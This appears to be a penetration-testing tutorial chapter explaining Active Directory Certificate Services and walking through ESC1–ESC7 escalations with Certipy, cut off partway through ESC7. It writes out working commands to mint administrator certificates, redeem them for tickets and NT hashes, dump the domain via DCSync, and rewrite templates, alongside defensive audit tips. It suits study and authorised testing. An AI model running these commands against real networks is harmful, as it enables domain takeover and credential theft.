







**Level:** Expert · **Track:** Penetration Testing · **Read time:** 320 min

This is Chapter 11 of the Active Directory attack notebook — Notebook 18, and the chapter that finally makes "just get a certificate" one of the most powerful sentences in the entire series. Chapter 10 showed how NTLM relay and coercion turn a foothold on the wire into domain compromise, and it deliberately ended on the flagship **ESC8** relay into AD CS without fully explaining what AD CS *is*. This chapter goes back and builds the whole of Active Directory Certificate Services from zero, then walks the complete ESC catalogue — ESC1 through ESC16 — so that every one of those escalations stops being a blog-copied one-liner and becomes something you understand field by field.

Certificates are the quiet superpower of Active Directory. A password can be rotated, a Kerberos ticket expires in ten hours, but a certificate is a self-contained credential that says "the CA vouches that this key belongs to *this* identity," and by default it is valid for **one year or more** and survives password resets. If an attacker can convince the CA to issue a certificate that names a privileged account, they have minted a durable key to the domain that no password change will revoke. That is the shape of nearly every attack in this chapter: find a path to a certificate that authenticates as someone you are not, then use PKINIT or Schannel to turn that certificate into a TGT, an NT hash, or a Domain Admin session.

The research that named these attacks — SpecterOps's *Certified Pre-Owned* (2021) by Will Schroeder and Lee Christensen — catalogued the domain-escalation primitives as **ESC1–ESC8** and the certificate-theft primitives as **THEFT1–THEFT5**. The community has since extended the list to ESC16. We will cover all of them, but with a strong bias toward the ones you will actually meet on engagements — ESC1, ESC4, ESC6, ESC7, ESC8, and the mapping attacks ESC9/ESC10 — and toward the single tool that has become the standard for exploiting them: **Certipy**.

## Why This Matters

AD CS is installed in a large fraction of enterprise Active Directory environments — anywhere that does smart-card logon, 802.1x/NPS, LDAPS, S/MIME, VPN certificates, SCCM, or Wi-Fi auth. It is frequently deployed with default or lightly-customised certificate templates, and those defaults are dangerous. A single template with the wrong flag or the wrong ACL turns *every authenticated user* into a Domain Admin candidate — no exploit, no malware, no crash, just a perfectly legitimate certificate request. Because the escalation abuses the PKI working exactly as configured, it produces almost no traditional "attack" signal: no failed logons, no exploit payload, no EDR alert. The certificate authenticates cleanly forever after.

It matters just as much defensively. AD CS misconfigurations are, in practice, a leading cause of "we did everything else right and still lost the domain." A defender who understands enrollment flags, EKUs, and certificate mapping can find and fix these before an attacker does — and can detect the ones that are exploited, because certificate enrollment *is* logged if you know which event IDs to watch. This chapter is written so both sides can reproduce every step.

## Who This Is For

You should be comfortable with the earlier chapters of this notebook: Kerberos (Chapter 5), delegation and RBCD (Chapter 8), ACL/ACE abuse (Chapter 9), and NTLM relay and coercion (Chapter 10) — ESC8 is a direct continuation of that last one. You do **not** need any prior PKI knowledge; Part 1 builds certificates and enrollment from the ground up. If you have only ever run `certipy find` and pasted the output into a report without understanding *why* a template is flagged vulnerable, this chapter turns that into genuine understanding of every EKU, flag, and ACE involved.

A hard prerequisite before any of this touches a real network: **explicit written authorisation.** Minting a certificate that authenticates as Domain Admin, relaying a Domain Controller, or backing up a CA's private key are unambiguously intrusive, high-impact actions. Everything below assumes a lab you own or an engagement with a signed scope. Build the lab in Part 14 and practise there.

## Part 1: PKI and AD CS From Zero

Before any ESC number means anything, you need a mental model of what a certificate is and how Active Directory issues one. Skip nothing here — every escalation later is just a specific way this machine breaks.

### 1.1 What a certificate actually is

An X.509 certificate is a small signed data structure that binds a **public key** to an **identity** (a subject name and/or Subject Alternative Names) for a set of **purposes** (Extended Key Usages), vouched for by a **Certificate Authority** that signs the whole thing with *its* private key. You hold the matching **private key**; anyone can verify the CA's signature using the CA's public certificate. The three parts that matter for attacks are:

- **Subject / Subject Alternative Name (SAN):** *who* the certificate claims to be. In AD, the SAN is decisive — a `userPrincipalName` (UPN) or DNS name in the SAN is what Windows maps back to an account during authentication. If you can put `administrator@corp.local` in the SAN of a certificate the CA will sign, you have a certificate that *is* the administrator.
- **Extended Key Usage (EKU):** *what the certificate may be used for*, expressed as OIDs. The one that matters most offensively is **Client Authentication** (`1.3.6.1.5.5.7.3.2`), which lets a certificate log a user on. Related: **Smart Card Logon** (`1.3.6.1.4.1.311.20.2.2`), **PKINIT Client Authentication** (`1.3.6.1.5.2.3.4`), **Any Purpose** (`2.5.29.37.0`), and the empty-EKU **SubCA** case. **Certificate Request Agent** (`1.3.6.1.4.1.311.20.2.1`) enables enroll-on-behalf-of.
- **Validity + the CA signature:** the certificate is trusted domain-wide because the issuing CA's certificate lives in the forest's **NTAuth** store (`CN=NTAuthCertificates`). Any certificate chaining to an NTAuth CA can be used to authenticate to AD.

### 1.2 The AD CS moving parts

Active Directory Certificate Services is Microsoft's PKI role. The pieces you attack:

| Component | What it is | Why an attacker cares |
| --- | --- | --- |
| **Enterprise CA** | The server running the `certsvc` role, integrated with AD | Signs certificates; its private key is the crown jewel (ESC7/forge) |
| **Certificate template** | An AD object (`CN=…,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration`) that defines EKUs, enrollment flags, subject rules, and ACLs | The single most common misconfiguration surface (ESC1–ESC4, ESC9, ESC13, ESC15) |
| **Enrollment services** | Object under `CN=Enrollment Services` listing which CAs publish which templates | Enumeration target; `certipy find` reads it |
| **NTAuth store** | `CN=NTAuthCertificates,CN=Public Key Services,…` — the list of CAs trusted for AD auth | If your forged/rogue CA lands here, game over (ESC5 territory) |
| **Web enrollment** | Optional IIS endpoints `/certsrv/certfnsh.asp` (HTTP) and the CES/CEP web services | The NTLM relay target for ESC8 |
| **CA configuration flags** | Registry values on the CA like `EDITF_ATTRIBUTESUBJECTALTNAME2` and the security-extension policy | ESC6 and ESC16 live here |

### 1.3 How enrollment works, step by step



Two request channels matter: **MS-ICPR** (the `ICertPassage` RPC interface, used by `certipy req`) and **HTTP web enrollment** (`certsrv`, the ESC8 relay target). Two authentication channels matter on the way back out: **PKINIT** (present the cert to a KDC, get a Kerberos TGT — and via the *UnPAC-the-hash* trick, the account's NT hash too) and **Schannel** (present the cert over TLS to LDAPS or another Schannel service).

### 1.4 Certificate mapping — the linchpin of every attack and every defence

When you authenticate with a certificate, the DC must decide *which account* it represents. This is **certificate mapping**, and it is the hinge the entire ESC9/ESC10/ESC14/ESC16 family turns on.

- **Implicit UPN/DNS mapping:** historically, the DC read the SAN's UPN (for users) or DNS name (for computers) and mapped to the account with that value. This is why ESC1 works: put the victim's UPN in the SAN and you *are* them.
- **The `szOID_NTDS_CA_SECURITY_EXT` extension (OID `1.3.6.1.4.1.311.25.2`):** to close the gap, Microsoft's May 2022 update (**KB5014754**) had the CA embed the requester's **SID** into a new certificate extension. If present, the DC verifies the SID matches the mapped account — so you can no longer request a cert "as" someone else just by naming them, because the embedded SID is still yours.
- **`StrongCertificateBindingEnforcement`:** the DC-side registry knob (`HKLM\SYSTEM\CurrentControlSet\Services\Kdc`) controlling how strictly the SID extension is enforced. `2` = full enforcement (map only by SID/strong identifiers), `1` = compatibility (warn), `0` = disabled (old weak behaviour → ESC10). The corresponding Schannel knob is `CertificateMappingMethods` under the Schannel provider.
- **`altSecurityIdentities`:** an explicit mapping attribute on an account. Writing a strong (or weak) mapping here is **ESC14**.

Hold onto this: **ESC1 works because SAN mapping is trusted; ESC9 works by requesting a template that omits the SID extension; ESC10 works because the DC's strong-binding enforcement is turned off; ESC16 works because the CA is configured to never add the extension.** Every one of them is the same lock (certificate → identity binding) picked in a different way.

## Part 2: Certipy From Scratch

Every tool in this notebook is taught from zero the first time it appears, and Certipy is the workhorse of this chapter, so we start with what it is before we use it.

**What it is.** Certipy (maintained as the `certipy-ad` package by Oliver Lyak / ly4k) is a Python tool that enumerates and abuses AD CS. It replaced the older Certify (C#) + Rubeus workflow for most operators because it runs from Linux, speaks LDAP/RPC/PKINIT natively, and bundles enumeration, request, relay, CA abuse, certificate theft, forging, and Shadow Credentials into one binary. It is built on Impacket, so it authenticates with passwords, NT hashes (`-hashes`), or Kerberos tickets (`-k`).

**Why it exists.** Exploiting AD CS by hand means crafting PKCS#10 CSRs with custom SANs, driving the ICertPassage RPC, running the PKINIT dance to redeem a certificate for a TGT, and parsing template ACLs out of LDAP — all fiddly. Certipy turns each of those into a subcommand.

**Install on Kali.**

```bash
# Preferred: pipx keeps it isolated and on PATH
sudo apt update && sudo apt install -y pipx
pipx install certipy-ad
pipx ensurepath          # then restart the shell

# Or straight from pip (into a venv is cleanest)
python3 -m pip install certipy-ad

certipy version
# Certipy v5.0.2 - by Oliver Lyak (ly4k)
```

**The subcommands you will use** (its "interface"):

| Subcommand | Purpose | Typical use |
| --- | --- | --- |
| `certipy find` | Enumerate CAs, templates, and flag vulnerabilities | First step on every engagement |
| `certipy req` | Request/enroll a certificate | ESC1/2/3/9/13/15 exploitation |
| `certipy auth` | Authenticate with a `.pfx` → TGT + NT hash | Cash in almost any issued cert |
| `certipy relay` | NTLM-relay to CA web/RPC enrollment | ESC8 / ESC11 |
| `certipy ca` | Manage/abuse CA settings and requests | ESC6, ESC7, backup |
| `certipy template` | Read/overwrite a template's config | ESC4 |
| `certipy shadow` | Shadow Credentials (msDS-KeyCredentialLink) | Take over accounts you can write |
| `certipy account` | Read/modify account attributes (UPN, DNS) | ESC9/ESC10 setup |
| `certipy forge` | Forge a "golden" cert from a stolen CA key | Post-CA-compromise persistence |
| `certipy cert` | Convert/split PFX/PEM, extract keys | Plumbing between steps |

**Global flags worth knowing now:** `-u user@domain -p password` (or `-hashes :NTHASH`, or `-k -no-pass` for Kerberos), `-dc-ip`, `-target`/`-ca`, `-ns` (DNS server, often the DC), `-debug`, and — important on modern DCs — `-ldap-channel-binding` / `-scheme ldaps` when LDAP signing/CB is enforced. Certipy 5.x also added `-sspn` handling and improved ESC coverage; if a flag below is missing on your version, run `certipy <cmd> -h`.

## Part 3: Enumeration — `certipy find`

You cannot exploit what you have not mapped. `certipy find` authenticates over LDAP, reads every CA and certificate template, computes the effective permissions, and tells you which templates are exploitable and how.

```bash
certipy find -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 -stdout -vulnerable
```

Flag-by-flag:

- `-u` / `-p` — credentials (any authenticated user is enough to enumerate).
- `-dc-ip` — the DC to query over LDAP.
- `-stdout` — print to terminal instead of only writing files. Without it you get a timestamped `*_Certipy.txt`, `*_Certipy.json`, and a BloodHound-compatible ZIP.
- `-vulnerable` — restrict output to templates Certipy considers exploitable (ESC-flagged). Drop it to see everything.
- Useful adds: `-enabled` (only templates actually published on a CA), `-hide-admins`, `-old-bloodhound` / `-bloodhound` (export for graphing).

Realistic (trimmed) output for an ESC1-vulnerable template:

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Saved text output to '20260807_Certipy.txt'

Certificate Authorities
  0
    CA Name                             : corp-DC01-CA
    DNS Name                            : dc01.corp.local
    Certificate Subject                 : CN=corp-DC01-CA, DC=corp, DC=local
    Web Enrollment (HTTP)               : Enabled          <-- ESC8 surface
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue

Certificate Templates
  0
    Template Name                       : ESC1-VulnUser
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : True             <-- attacker sets SAN
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Authorized Signatures Required      : 0
    Enrollment Rights                   : CORP\Domain Users
    [!] Vulnerabilities
      ESC1 : 'CORP\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

Read that block like a checklist: **who can enroll** (`Enrollment Rights`), **can the enrollee choose the SAN** (`Enrollee Supplies Subject`), **does the EKU allow logon** (`Client Authentication`), **is there a human gate** (`Requires Manager Approval`, `Authorized Signatures Required`). ESC1 needs *low-priv enroll + enrollee-supplied SAN + auth EKU + no approval*. Certipy computes exactly that and labels it.

**Blue team usage:** `certipy find` is also the fastest self-audit. Run it as a normal user against your own domain; every `[!] Vulnerabilities` line is a finding to remediate. The JSON output feeds nicely into a periodic AD CS hygiene check.

### 3.1 The ESC catalogue at a glance



| ESC | Root cause | Rights needed | Certipy path |
| --- | --- | --- | --- |
| ESC1 | Enrollee supplies SAN + client-auth EKU | Enroll on template | `req -upn victim` |
| ESC2 | Any Purpose or SubCA EKU | Enroll | `req` then use broadly / on-behalf |
| ESC3 | Enrollment Agent EKU | Enroll | `req` agent → `req -on-behalf-of` |
| ESC4 | Write/Owner over template | WriteDacl/WriteOwner/GenericAll | `template -write` → make it ESC1 |
| ESC5 | Write over CA/PKI objects | ACL on CA computer/objects | ACL abuse → CA control |
| ESC6 | `EDITF_ATTRIBUTESUBJECTALTNAME2` on CA | Enroll on any client-auth template | `req -upn` (SAN honored globally) |
| ESC7 | ManageCA / ManageCertificates | CA role | `ca -add-officer` / enable flag / issue |
| ESC8 | Web enrollment + NTLM relay | Network position + coercion | `relay -target http://ca/certsrv/...` |
| ESC9 | `CT_FLAG_NO_SECURITY_EXTENSION` | Write UPN on a victim (+enroll) | account UPN swap → `req` → `auth` |
| ESC10 | Weak DC cert binding (registry) | Write UPN or Shadow Creds | account swap / shadow → `auth` |
| ESC11 | ICertPassage RPC w/o encryption | Network position + coercion | `relay` to RPC endpoint |
| ESC13 | Template linked to group via OID | Enroll on template | `req` → token gains group |
| ESC14 | Write `altSecurityIdentities` | Write on victim | explicit mapping → `auth` |
| ESC15 | v1 template + app policies (EKUwu) | Enroll | `req -application-policies` |
| ESC16 | Security extension disabled on CA | Enroll + account write | like ESC9 but CA-wide |

## Part 4: ESC1 — Enrollee-Supplied SAN (the canonical escalation)

ESC1 is the one you will meet most often and the one to understand cold. A template is ESC1-vulnerable when **all** of these hold: an unprivileged group has *enroll* rights; the template has the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag (Certipy: `Enrollee Supplies Subject : True`); the EKU permits client authentication; and there is no manager approval or signature requirement. Under those conditions the enrollee gets to dictate the SAN, so they simply name a Domain Admin.



### 4.1 Exploitation

Request the certificate, supplying the victim UPN:

```bash
certipy req \
  -u analyst@corp.local -p 'Autumn2026!' \
  -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA \
  -template ESC1-VulnUser \
  -upn administrator@corp.local \
  -sid S-1-5-21-1899-1004-2019-500
```

Flags:

- `-ca` — the issuing CA name exactly as `find` reported it.
- `-template` — the vulnerable template.
- `-upn` — the SAN userPrincipalName you want the cert to claim. This is the whole attack: you ask to be `administrator`.
- `-sid` — (Certipy 4.8+) also embed a SID in the SAN URL. On patched CAs the DC may require the SID to match for strong mapping; supplying the target's SID makes the cert work against `StrongCertificateBindingEnforcement` where feasible. Get it from `certipy find`/`ldapsearch`.
- Add `-dns dc01.corp.local` instead of `-upn` to impersonate a *computer* account (machine templates).

Typical output:

```
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 41
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

### 4.2 Cashing it in with `certipy auth`

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10
```

```
[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@corp.local': aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99
```

`auth` does two things: it performs **PKINIT** to obtain a Kerberos TGT (saved as a `.ccache` you can `export KRB5CCNAME=administrator.ccache` and use with any Impacket tool), and it performs **UnPAC-the-hash** — a documented PKINIT behaviour where the KDC returns the account's NTLM hash inside the encrypted PAC — giving you the NT hash for pass-the-hash. Either one is game over for a Domain Admin.

```bash
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass corp.local/administrator@dc01.corp.local
# ... dumps the entire NTDS.dit via DRSUAPI (DCSync)
```

**Red team usage:** the resulting certificate is valid for the template's lifetime (often 1 year). Even if the admin password is reset, the certificate keeps yielding TGTs — a stealthy persistence primitive (see also THEFT and forge in Part 11). **Bug bounty / CTF angle:** ESC1 is a staple of HackTheBox/TryHackMe AD boxes and of pro-lab environments; if a box hands you any domain user and there is a CA, `certipy find -vulnerable` is a reflex.

**Pitfall:** if `auth` fails with `KDC_ERR_PADATA_TYPE_NOSUPP`, PKINIT isn't supported by that KDC (no DC certificate) — you may still use the cert over Schannel (`-ldap-shell`) instead. If it fails with `KDC_ERR_CLIENT_NAME_MISMATCH` on a patched DC, you hit strong mapping — supply `-sid`, or pivot to ESC9/ESC10.

## Part 5: ESC2 and ESC3 — Any-Purpose, SubCA, and Enrollment Agent

### 5.1 ESC2 — Any Purpose / SubCA EKU

A template whose EKU is **Any Purpose** (`2.5.29.37.0`) or which has **no EKU** (a SubCA template) issues a certificate usable for *anything*, including client authentication. If a low-priv user can enroll and the template does not force the subject from AD, ESC2 is effectively ESC1 without needing the enrollee-SAN flag, because Any-Purpose certs can be repurposed. Certipy flags it as `ESC2`. Exploitation is a plain `certipy req` followed by using the cert for client auth (or as an enrollment/subordinate cert). SubCA templates that let you act as a subordinate CA are especially dangerous — you can sign your own certificates.

### 5.2 ESC3 — Certificate Request Agent (enroll on behalf of others)

The **Certificate Request Agent** EKU (`1.3.6.1.4.1.311.20.2.1`), also called Enrollment Agent, lets the holder request certificates *on behalf of other users*. Two conditions: (1) a template grants you an enrollment-agent certificate; (2) a second template accepts enrollment-agent signatures (`Authorized Signatures Required: 1` + application policy = Certificate Request Agent). Chain them:

```bash
# Step 1 — get the enrollment agent certificate
certipy req -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -template ESC3-Agent

# Step 2 — use it to enroll a cert AS the administrator
certipy req -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -template User \
  -pfx analyst.pfx -on-behalf-of 'CORP\administrator'
```

- `-on-behalf-of 'DOMAIN\user'` — the target principal to impersonate (note the NetBIOS `DOMAIN\` form).
- `-pfx analyst.pfx` — the enrollment-agent certificate signing the on-behalf request.

Then `certipy auth -pfx administrator.pfx` as before. ESC3 is the "legitimate feature abused" case: enrollment agents exist so a help-desk can enroll smart cards for staff — which is exactly why an over-broad agent template is a domain-takeover primitive.

## Part 6: ESC4 — Template ACL Abuse

ESC1–ESC3 assume the template is *already* misconfigured. **ESC4 is about making it misconfigured.** If you hold `WriteDacl`, `WriteOwner`, `WriteProperty`, or `GenericAll` over a certificate template object (Certipy reports these under the template's `[!] Vulnerabilities` as ESC4), you can rewrite its configuration into an ESC1 template, enroll, and then — good practice — restore it.



Certipy 5 makes the whole round-trip safe by saving and restoring the template configuration:

```bash
# Back up + weaponize the template into an ESC1 in one shot
certipy template -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -template VulnByACL -write-default-configuration -save-configuration old.json

# (older/explicit form) push a crafted config that turns on enrollee SAN + ClientAuth
# certipy template ... -configuration esc1.json

# ... now exploit exactly like ESC1 ...
certipy req -u analyst@corp.local -p 'Autumn2026!' -ca corp-DC01-CA \
  -template VulnByACL -upn administrator@corp.local

# restore the original configuration you saved
certipy template -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -template VulnByACL -configuration old.json
```

**Ethics / operational care:** rewriting a production template changes real security posture. Always save the original first (`-save-configuration`) and restore it immediately after, and note it in the engagement log. Leaving a template in the weaponised state is both a finding *you* created and a liability.

**How you get the ACL in the first place** ties back to Chapter 9: a `WriteDacl`/`GenericWrite` ACE on the template object, often inherited from an over-permissive OU or granted to a broad group. BloodHound's `ADCS` collection surfaces these edges.

## Part 7: ESC6 — EDITF_ATTRIBUTESUBJECTALTNAME2 on the CA

ESC6 moves the misconfiguration from a template to the **CA itself**. When the CA has the policy flag `EDITF_ATTRIBUTESUBJECTALTNAME2` set, it will honour a **SAN supplied in the request for *any* template**, even templates that build the subject from AD. In other words, one bad CA flag turns *every* client-auth template into ESC1.

Detect it in `certipy find` output:

```
    User Specified SAN                  : Enabled          <-- EDITF_ATTRIBUTESUBJECTALTNAME2
    [!] Vulnerabilities
      ESC6 : Enrollees can specify SAN and template allows client authentication
```

Exploit it exactly like ESC1 but against a normally-safe template:

```bash
certipy req -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -template User -upn administrator@corp.local
```

**Important caveat:** the May 2022 update (KB5014754) added the SID security extension, which means that even with EDITF set, a *patched* CA still embeds the requester's real SID and a *patched* DC (strong binding) may reject the mismatched cert. So ESC6 is reliably exploitable on unpatched CAs, and on patched ones it typically must be combined with the mapping weaknesses (ESC9/ESC10) or ESC16. Certipy's flag tells you the flag is set; whether it *lands* depends on the DC's `StrongCertificateBindingEnforcement`.

Set/inspect the flag (defenders and, with ESC7 rights, attackers):

```bash
# View: on the CA
certutil -getreg policy\EditFlags
# The dangerous bit is EDITF_ATTRIBUTESUBJECTALTNAME2 (0x00040000)
# Remove it:
certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
net stop certsvc && net start certsvc
```

## Part 8: ESC7 — Vulnerable CA Access Control (ManageCA / ManageCertificates)

Templates aren't the only ACL surface — the **CA object** has its own rights. Two matter:

- **ManageCA** ("CA Administrator") — can change CA configuration, including *enabling* `EDITF_ATTRIBUTESUBJECTALTNAME2` (i.e. turn on ESC6 yourself) and adding certificate officers.
- **ManageCertificates** ("Certificate Manager / Officer") — can **approve pending requests**, defeating the "manager approval" gate.

Certipy reports these as `ESC7`. The classic weaponisation (Certipy automates it) is: grant yourself officer rights, submit a request to a template that *requires approval* (e.g. `SubCA`) which lands **pending/denied**, then approve it as the officer.

```bash
# 1) Add ourselves as an officer (needs ManageCA)
certipy ca -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -add-officer analyst

# 2) Enable the SubCA template on the CA (ManageCA) if not enabled
certipy ca -ca corp-DC01-CA -u analyst@corp.local -p 'Autumn2026!' \
  -enable-template SubCA

# 3) Request against SubCA with an admin SAN — this gets DENIED (needs manager approval)
certipy req -u analyst@corp.local -p 'Autumn2026!' -ca corp-DC01-CA \
  -template SubCA -upn administrator@corp.local
#   -> Request ID is 785, disposition: taken under submission (pending)

# 4) Approve our own pending request as the officer we just became
certipy ca -ca corp-DC01-CA -u analyst@corp.local -p 'Autumn2026!' \
  -issue-request 785

